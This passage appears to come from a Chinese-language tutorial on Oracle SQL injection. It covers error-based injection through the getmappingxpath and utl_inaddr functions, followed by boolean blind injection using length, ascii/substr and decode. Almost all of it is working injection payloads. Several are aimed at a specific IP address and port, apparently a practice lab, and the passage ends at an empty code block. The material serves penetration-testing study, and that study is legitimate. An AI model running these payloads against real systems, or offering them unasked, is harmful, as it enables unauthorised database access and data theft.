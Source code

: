 ![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627371240951-badc7016-575d-4a23-9d5b-24d99923c150.png#align=left&display=inline&height=306&margin=%5Bobject%2Object%5D&name=image.png&originHeight=612&originWidth=2500&size=190889&status=done&style=none&width=1250)
## 7、ordsys.ord_dicom.getmappingxpath()
```
?id=1 and 1=ordsys.ord_dicom.getmappingxpath((select banner from sys.v_$version where rownum=1),user,user)--
```
## 8、utl_inaddr.*()
utl_inaddr（用于取得局域网或Internet环境中的主机名和IP地址）
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627369182388-db5976e4-c62c-460c-a76e-4a3b9fdadf0e.png#align=left&display=inline&height=444&margin=%5Bobject%2Object%5D&name=image.png&originHeight=888&originWidth=1480&size=138926&status=done&style=none&width=740)
```
?id=1 and 1=utl_inaddr.get_host_name((select user from dual)) --
?id=1 and 1=utl_inaddr.get_host_address((select user from dual)) --
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627464133762-13bb4b59-3f8f-466a-b970-082352b0484e.png#align=left&display=inline&height=398&margin=%5Bobject%2Object%5D&name=image.png&originHeight=796&originWidth=1692&size=57659&status=done&style=none&width=846)
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627464181708-702fd815-478b-488f-8c3a-565adb5fb2f4.png#align=left&display=inline&height=458&margin=%5Bobject%2Object%5D&name=image.png&originHeight=916&originWidth=1810&size=65997&status=done&style=none&width=905)
# 0x05 布尔型盲注
常用猜解：
```
#猜长度
?id=1 and 6=(select length(user) from dual)--
#截取值猜ascii码
?id=1 and (select ascii(substr(user,1,1)) from dual)>83
?id=1 and (select ascii(substr(user,1,1)) from dual)=83
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627358275597-570e4d7d-7594-4570-bd79-ff983c61706e.png#align=left&display=inline&height=380&margin=%5Bobject%2Object%5D&name=image.png&originHeight=760&originWidth=2404&size=187790&status=done&style=none&width=1202)
## 1、decode函数布尔盲注
decode(字段或字段的运算，值1，值2，值3）
这个函数运行的结果是，当字段或字段的运算的值等于值1时，该函数返回值2，否则返回3

### 测试用户名长度
```
http://219.153.49.228:44768/new_list.php?id=1 and 6=(select length(user) from dual) --
```
### 测试当前用户是否为SYSTEM
```
#如果是system用户则返回正常，不是则返回不正常
http://219.153.49.228:44768/new_list.php?id=1 and 1=(select decode(user,'SYSTEM',1,0) from dual) -- 
```
```
#使用substr截断，逐个字段进行猜解
http://219.153.49.228:44768/new_list.php?id=1 and 1=(select decode(substr(user,1,1),'S',1,0) from dual) -- 
?id=1 and 1=(select decode(substr(user,2,1),'Y',1,0) from dual) -- 
?id=1 and 1=(select decode(substr(user,3,1),'S',1,0) from dual) --
?id=1 and 1=(select decode(substr(user,4,1),'T',1,0) from dual) --
?id=1 and 1=(select decode(substr(user,5,1),'E',1,0) from dual) --
?id=1 and 1=(select decode(substr(user,6,1),'M',1,0) from dual) --

#当然也可以配合ascii码进行猜解
?id=1 and 1=(select decode(ascii(substr(user,1,1)),'83',1,0) from dual) --
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627366490187-723fa9dc-c6d7-4858-a429-d98bbe77cab4.png#align=left&display=inline&height=436&margin=%5Bobject%2Object%5D&name=image.png&originHeight=872&originWidth=2424&size=197040&status=done&style=none&width=1212)
## 2、instr函数布尔盲注
instr函数的应用：
```
```